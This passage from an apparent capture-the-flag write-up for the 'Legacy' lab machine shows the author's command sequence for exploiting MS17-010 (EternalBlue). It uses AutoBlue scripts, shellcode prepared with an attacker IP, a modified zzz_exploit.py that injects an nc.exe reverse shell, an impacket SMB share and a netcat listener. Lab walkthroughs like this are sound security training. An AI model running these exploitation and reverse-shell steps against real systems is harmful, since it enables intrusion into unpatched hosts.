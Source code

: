 ```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
python2 eternal_checker.py
python2 eternal_checker.py 10.129.227.181
# [+] Found pipe 'browser'          :)

./shell_prep.sh
  y 10.10.14.62 443 444 1 1

python2 eternalblue_exploit7.py 10.129.227.181 shellcode/sc_x64.bin
python2 eternalblue_exploit7.py 10.129.227.181 shellcode/sc_all.bin
python2 eternalblue_exploit8.py 10.129.227.181 shellcode/sc_x64.bin
python2 eternalblue_exploit8.py 10.129.227.181 shellcode/sc_all.bin
python2 eternalblue_exploit10.py 10.129.227.181 shellcode/sc_x64.bin 
python2 eternalblue_exploit10.py 10.129.227.181 shellcode/sc_all.bin 
# :(
```

<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

There is another exploit that I can try to use, only a small modification must be made in the code. I need to uncomment a line to inject the command that I want to perform, in this case I want to send me a **Reverse Shell** using `nc.exe` that I will be sharing from my machine, with the help of one of the tools of the **impacket** suite. I can't get the expected result, so I have to look for another way or maybe another **Github** resource.

```bash
nvim zzz_exploit.py
cat zzz_exploit.py | grep 'nc.exe'
locate nc.exe
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
sudo impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
python2 zzz_exploit.py 10.129.227.181 -pipe browser         # :(
```

<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
